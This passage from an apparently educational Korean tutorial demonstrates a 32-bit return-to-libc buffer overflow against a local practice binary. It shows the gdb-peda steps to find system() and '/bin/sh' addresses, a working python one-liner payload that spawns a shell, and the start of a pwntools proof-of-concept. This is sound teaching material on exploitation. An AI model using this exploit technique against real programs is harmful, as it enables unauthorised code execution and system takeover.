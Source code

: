 RET 주소를 overwrite 하기 위해서는 100bytes(0x64)에 4bytes(SFP) 만큼, 총 104bytes를 입력하면 RET 주소를 조작 할 수 있게 된다.

RTL 공격 기법은 RET 주소에 공유 라이브러리 함수의 주소를 넣어 호출된 함수를 사용할 수 있게 된다. 우리가 호출할 함수는 system() 함수이다. system() 함수의 주소를 알아내기 위해 우선 main에 breakpoint 를 걸고 실행한다.

```
gdb-peda$ b *main
Breakpoint 1 at 0x8048456
gdb-peda$ r
```

p system 명령어로 system() 함수의 주소를 알아낸다. system()의 주소는 0xf7e21d10 이다.
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e21d10 <system>
```

system() 함수의 주소를 찾아냈고, 인자로 쉘을 실행하기 위한 "/bin/sh" 문자열을 넣어줘야 한다. "/bin/sh" 문자열을 찾기 위해서 아래 명령어 find "/bin/sh" 를 입력하면 "/bin/sh"의 주소는 0xf7f608cf 임을 알 수 있다.

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f608cf ("/bin/sh")
gdb-peda$ 
```

가장 중요한 2가지의 주소를 찾았고 이제 이를 buf 변수에 넣어보자.

payload의 구성은 아래와 같다. system address 와 /bin/sh address 사이에 4bytes의 더미 값이 들어가 있다. 이 이유는 0x02에서 설명했듯이, 32bit 환경에서는 호출된 함수가 인자 값을 가져오기 위해 EBP+0x8 만큼의 주소에서 가져 온다고 말했었다. 그래서 system address 와 /bin/sh address 사이에 4bytes의 더미 값이 들어가는 것이다. 

```
[Dummy bytes](104bytes) + [system addr](4bytes) + [Dummy bytes](4bytes) + [/bin/sh addr](4bytes)
```

최종적으로 payload는 아래와 같다.

```
$ (python -c 'print "A"*104 + "\x10\x1d\xe2\xf7" + "AAAA" +"\xcf\x08\xf6\xf7"'; cat) | ./rtl
```

위 코드를 실행하면 아래와 같이 shell을 획득했다.

```
$ (python -c 'print "A"*104 + "\x10\x1d\xe2\xf7" + "AAAA" +"\xcf\x08\xf6\xf7"'; cat) | ./rtl
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

ls
rtl  rtl.c
```

### 0x04 POC code

위 과정을 python의 pwntools를 이용하여 코드로 나타내면 아래와 같다.

```python 
# File name: poc.py
from pwn import *

p = process("./rtl")

systemAddr = 0xf7e21d10
shAddr = 0xf7f608cf

payload = "A"*104
payload += p32(systemAddr)
payload += "AAAA"
payload += p32(shAddr)
```